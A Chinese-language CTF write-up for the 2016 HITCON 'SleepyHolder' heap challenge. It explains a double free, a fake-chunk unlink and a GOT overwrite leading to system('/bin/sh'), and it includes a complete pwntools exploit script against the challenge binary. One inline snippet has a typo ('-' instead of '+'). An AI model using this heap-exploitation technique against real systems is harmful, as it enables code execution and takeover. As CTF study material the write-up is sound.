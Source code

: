 # 2016 HITCON CTF SleepyHolder
###　序言
> 本来这周准备学习`House Of Orange`, 但是这个牵扯知识点太多. 忽然发现还有一个`fastbin_dup_consolidate`没有学习, 补一下.

### 程序运行(文章尾部有程序源码)
**1. MENU**
```
1. Keep secret
2. Wipe secret
3. Renew secret
```
**2. Keep secret(New)**
```
1. Small secret
2. Big secret
3. Keep a huge secret and lock it forever

1
Tell me your secret:
hello, world
#另外两个选项类似,　只是分配的堆空间大小不同
```
**3.Wipe secret(Delete)**
```
Which Secret do you want to wipe?
1. Small secret
2. Big secret
1
```
**4. Renew secret(Update)**
```
Which Secret do you want to renew?
1. Small secret
2. Big secret
1
Tell me your secret:
AAAA
```
### 程序分析

**1. Keep Secret(New)**
> 可以选择申请`40, 4000, 40000`三种不同大小的堆块. 当申请大小超过`top chunk size`, `ptmalloc`会整合一些`fastbin`中的`free chunk`并入`top chunk`, 如果还不够就`mmap`一块新的`chunk`，这个`chunk`与原有的`top chunk`之间采用单链表链接.

**2. Wipe Secret(Delete)**
> `free`对应的指针, 标志位置`0`

**3. Renew Secret(Update)**
>　不检查指针是否已释放, 造成`Double Free`


### 知识点
**[Double Free](https://heap-exploitation.dhavalkapil.com/attacks/double_free.html)**
**[Unlink](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html)**
### 思路分析
&nbsp;&nbsp;&nbsp;&nbsp;**总体思路:** `Double Free` 掉`small secret`, 在`small secret` 中构造`fake chunk`, 释放`big secret`,　`big secret`会和`fake chunk`合并, 过程中我们用`unlink`来修改全局指针变量`s_ptr`. 通过将其修改为`free@got`, 修改`free@got`为`put@plt`, 泄露`libc 地址`, 再将其修改为`system`地址, `free　"/bin/sh"`时就等于执行了`system("/bin/sh")`

**步骤一: Double Free**
```python
add(1, 'aaa') #small secret
add(2, 'bbb') #big secret
delete(1)    ------------------
add(3, 'ccc') #huge secret    ｜--------> Double Free
delete(1)    ------------------
```
**步骤二: Fake Chunk**

```python
f_ptr = 0x6020d0
fake_chunk = p64(0) + p64(0x21)
fake_chunk += p64(f_ptr - 0x18) - p64(f_ptr - 0x10)
fake_chunk += p64(0x20)
add(1, fake_chunk)
delete(2) #unlink
```
**小结:** [Unlink栗子](https://blog.csdn.net/qq_33528164/article/details/79586902)

**步骤三: 泄露**
```
content  = p64(0) + p64(atoi_got)
content += p64(puts_got) + p64(free_got) + p32(0x1)*2
update(1, content) #f_ptr = free_got
update(1, p64(puts_plt)) #free_got = puts_plt
delete(2) #puts(atoi)
libc_base = u64(p.recvn(6).ljust(8, "\x00")) - atoi_offset
system = libc_base + system_offset
```

**步骤四: system("/bin/sh")**
```
update(1, p64(system))
add(2, "/bin/sh\x00")
delete(2) #system("/bin/sh")
```

### 踩过的坑
> 1. 对于`read`函数, pwntools发送的时候最好不用`sendline`,　尽量使用发送足量的字符来结束输入. 就像本题, 如果将`add, delete, update`函数中`p.send`改成`p.sendline`, 那么会出错.

> 2. 泄露`libc base`地址:
>> 1. 泄露`libc`中某一个函数的地址, 减去对应函数在`libc`中的偏移量就可以得到`libc base`
>> 2. free掉一个`0x80`或大于`0x80`的`chunk`, 泄露出该地址, 减去`0x3c4b78`, 也是`libc base`(`libc`的基地址)
### 完整EXP
```
from pwn import *

context.log_level = 'debug'

p = process("./SleepyHolder")
elf = ELF("./SleepyHolder")
libc = ELF("./libc.so.6")

def add(index, content):
    p.recvuntil("Renew secret\n")
    p.sendline("1")
    p.recvuntil("\n")
    p.sendline(str(index))
    p.recvuntil("secret: \n")
    p.send(content)

def delete(index):
    p.recvuntil("3. Renew secret\n")
    p.sendline("2")
    p.recvuntil("Big secret\n")
    p.send(str(index))

def update(index, content):
    p.recvuntil("Renew secret\n")
    p.sendline("3")
    p.recvuntil("Big secret\n")
    p.sendline(str(index))
    p.recvuntil("secret: \n")
    p.send(content)

# Double Free
add(1, 'aaa')
add(2, 'bbb')
delete(1)
add(3, 'ccc')
delete(1)

#Fake Chunk
f_ptr = 0x6020d0
s_ptr = 0x6020c0

fake_chunk  = p64(0) + p64(0x21)
fake_chunk += p64(0x6020d0-0x18) + p64(0x6020d0-0x10)
fake_chunk += p64(0x20)
add(1, fake_chunk)
delete(2)

#gdb.attach(p)
#leak libc base
free_got = elf.got['free']
atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
system_offset = libc.symbols['system']
atoi_offset = libc.symbols['atoi']

#gdb.attach(p)
content = p64(0) + p64(atoi_got)
content += p64(puts_got) + p64(free_got) + p32(0x1)*3
update(1, content)
update(1, p64(puts_plt))
#update

delete(2)
libc_base = u64(p.recvn(6).ljust(8, "\x00")) - atoi_offset
system = libc_base + system_offset

update(1, p64(system))
add(2, "/bin/sh\x00")
delete(2)
p.interactive()
```
### 相关链接
[Isaac](https://poning.me/2016/10/29/secret-holder/)
[0x9A82](https://www.cnblogs.com/Ox9A82/p/6766261.html)
[相关文件下载]()
